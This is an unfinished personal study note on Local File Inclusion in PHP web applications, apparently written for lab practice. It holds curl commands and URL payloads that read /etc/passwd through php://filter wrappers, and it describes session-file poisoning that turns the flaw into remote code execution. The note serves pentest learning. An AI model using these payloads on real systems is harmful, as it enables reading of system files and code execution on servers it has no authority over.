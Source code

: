 ```yaml
---
creation date: November 15th 2022
last modified date: November 15th 2022
aliases: [Local File Inclusion]
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: [[PHP]] - [[Websites]]
Search Tag: #📕  

# [[LFI]]  
___

## Description:  
This stands for **Local File Inclusion** and is a vulnerability found in various web applications.


## Tips
- Reading these from a browser can be annoying as it fails to format so we can use `curl` in order to make the call. This will stylize with the terminal how they should be.
	- Note if there is a login page in the way it does take a bit more work to do it this way
```bash
# First we save the cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```


## Functions that cause vulnerabilities 
### PHP
- `include`
- `require`
- `include_once`
- `require_once`

#### [PHP-Supported Wrapper](https://www.php.net/manual/en/wrappers.php.php)
These provide a number of miscellaneous I/O streams.
- `php://filter/resources`
```scheme
http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd
```
- `php://filter/read=string.rot13/resource`
	- This will encrypt the output to in this example "rot13". Useful if we are trying to display a .php file and the server is trying to execute it instead.
```scheme
http://example.thm.labs/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd 
http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
```


## Getting RCE
### Option 1
1. We need to locate where the site stores PHP sessions:
```
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```
2. We can inject PHP test code into a sign in page as the username: `<?php phpinfo(); ?>`
![[Pasted image 20221115173620.png]]
3. We get the **PHPESSID** from our cookies on the site this value: `vc4567al6pq7usm2cufmilkm45` will contain our injected php code.
4. Now we test against the possible PHP session storage locations:
	1. PHP by default uses the following naming scheme `sess_%3CSESSION ID%3E`
```scheme
http://example.thm.labs/page.php?file=/tmp/sess_vc4567al6pq7usm2cufmilkm45
```
5 If we are successful the page should display our test injected PHP code:
![[Pasted image 20221115174032.png]]

##ADD INFO ABOUT FINALLY CONNECTING WITH RCE TO ABOVE SECTION## [PHP Session Hijacking](https://alamot.github.io/unattended_writeup/#lfi-to-rce-via-php-session-poisoning)

### Apache log poisoning
```bash
/var/log/apache2/access.log
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 15th 2022 (04:43 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>